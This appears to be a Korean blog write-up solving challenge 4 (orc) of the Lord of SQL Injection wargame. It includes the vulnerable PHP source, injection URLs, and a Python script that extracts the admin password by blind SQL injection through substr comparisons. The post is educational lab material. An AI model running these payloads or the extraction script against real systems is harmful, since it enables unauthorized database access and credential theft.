 ```yaml
---
title: Lord of SQL Injection Write Up No.4 Orc
date: 2019-08-15 11:23:17
updated:
categories:
  - Write Up
tags:
  - Lord of SQL Injection
  - Infosec
---
```


## 개요

{% img /image/los-main.png 300 %}

SQL Injection에 대한 지식을 쌓기 위해 [Lord of SQL Injection 사이트](https://los.eagle-jump.org/)의 문제를 풀고 해답을 정리한다.

이 문서에서는 Lord of SQL Injection 4번 orc 문제에 대하여 정리한다.

<!-- more -->

## 문제 분석

### 문제 출제 의도

기본적인 Blind SQL Injection을 할 수 있는지 확인한다.

### 필요 배경 지식

#### addslashes

```php
string addslashes ( string $str )
```

- `addslashes` 함수는 데이터베이스 질의 등에서 처리할 필요가 있는 문자(홑따옴표('), 겹따옴표("), 백슬래시(\\), NUL(NULL 바이트)) 앞에 백슬래시를 붙인 문자열을 반환한다.
- php의 `addslashes` 함수에 대해 잘 모르겠다면 다음 링크를 참고하자.
- [PHP: addslashes - Manual](http://php.net/manual/kr/function.addslashes.php)

#### Blind SQL Injection

4번 orc 문제같은 경우 실제 `pw`값을 알아내야 한다. 이때 화면에 `Hello admin`이라는 문자열이 출력되었는지 안 되었는지 여부에 따라 조작한 SQL문의 조건절이 참인지 거짓인지 알아낼 수 있다.

이처럼 SQL Injection이 가능하고 조작한 SQL문의 조건절이 참인지 거짓인지를 구분할 수 있는 경우 원하는 데이터를 하나씩 알아낼 수 있는데, 이를 Blind SQL Injection 이라고 한다.

### 소스 코드 분석

orc 문제의 php 소스 코드는 다음과 같다.

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello admin</h2>";
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc");
  highlight_file(__FILE__);
?>
```

#### Filter

```php
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
```

- GET 방식으로 pw를 받고, pw에 `prob`, `_`, `.`, `()` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.

#### Query

```php
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello admin</h2>";
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc");
```

- 받은 `pw`가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.
- `$result['id']`에 참이 되는 어떤 값이든 들어 있으면 응답에 `"Hello admin"` 이라는 문자열이 포함된다.
- 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 `pw`와 GET방식으로 전달받은 `pw`가 같음'이다. 즉, 실제 데이터베이스에 저장된 `pw`를 알아내서 전달해야 한다.

## Solution

1. `SUBSTR` 함수 활용

   ```url
   http://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw=' or id='admin' and length(pw)=8-- -
   ```

   ```sql
   select id from prob_orc where id='admin' and pw='' or id='admin' and length(pw)=8-- -'
   ```

   이는 `"Hello admin"`을 출력하게 만든다. 즉, `pw`는 8자리임을 알아낸 것이다.

   이와 비슷한 방법으로 쿼리를 조작하면 `pw` 역시 전부 알아낼 수 있다.

   하지만 이를 반복하여 8자리를 모두 알아내는 것은 사람이 하기 버거우므로 python 코드를 작성하여 풀면 편하다.

   ```python
   import urllib.request # python3의 내장 라이브러리인 urllib의 request 모듈을 사용할 수 있도록 이 코드에 불러온다.
   from urllib.parse import quote # python3의 내장 라이브러리인 urllib의 parse 모듈에 들어있는 quote 함수를 사용할 수 있도록 이 코드에 불러온다.

   key = "" # pw값을 저장할 문자열 변수
   for i in range(1, 9): # 8자리임을 알아냈으므로 i에는 1부터 8까지 들어가도록 반복문을 구성
       for j in range(32, 127): # ASCII Code에서 화면에 출력 가능한 문자의 10진수 범위는 32부터 126까지이다.
           url = "http://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw=" # 공격할 URL에서 변하지 않는 부분이다.
           data = "' or id='admin' and substr(pw, 1, {})='{}'#".format(
               str(i), key + chr(j)) # 반복문을 진행하며 계속 다른 문자가 들어갈 문자열이다.
           print(data) # 반복문이 한 번 돌 때마다 URL을 출력하도록 한다.
           data = quote(data) # URL Encoding을 해 준다.
           re = urllib.request.Request(url + data) # 1행에서 불러온 request 모듈의 Request 클래스를 통해 Request 객체를 만든다.

           re.add_header(
               "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36") # re 객체의 header에 User-agent를 추가한다. User-agent가 없으면 403 Forbidden 오류가 난다.
           re.add_header(
               "Cookie", "PHPSESSID=jaqm7mrah73p9vvsj7mlp8ec23"
           ) # re 객체의 header에 Cookie로 본인이 로그인한 클라이언트의 PHPSESSID를 추가한다. 이것이 없으면 페이지가 login_chk()에 걸려 그 다음 처리를 하지 않고 <script>location.href='./';</script> 만 응답한다.

           req = urllib.request.urlopen(re) # 객체를 이용해 요청을 보낸다.

           if str(req.read()).find("Hello admin") != -1: # 응답에서 "Hello admin"이라는 문자열을 찾은 경우. find()는 찾으면 시작 인덱스를, 못 찾으면 -1을 반환하는 함수이다.
               key += chr(j).lower() # key 변수 뒤에 ASCII Code로 j값에 해당하는 문자를 붙인다.
               print(key) # key를 출력한다.
               break # i번째 위치의 문자를 찾았으므로 반복문을 탈출한다.
   print(key) # 반복문이 끝나면 최종적으로 찾아낸 8글자 key를 출력한다.
   ```

   이러한 코드를 실행하면 결과값으로 `295d5844` 를 출력한다.
   이를 GET방식으로 `pw`의 값으로 전달하면 풀린다.

   ```url
   http://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw=295d5844
   ```

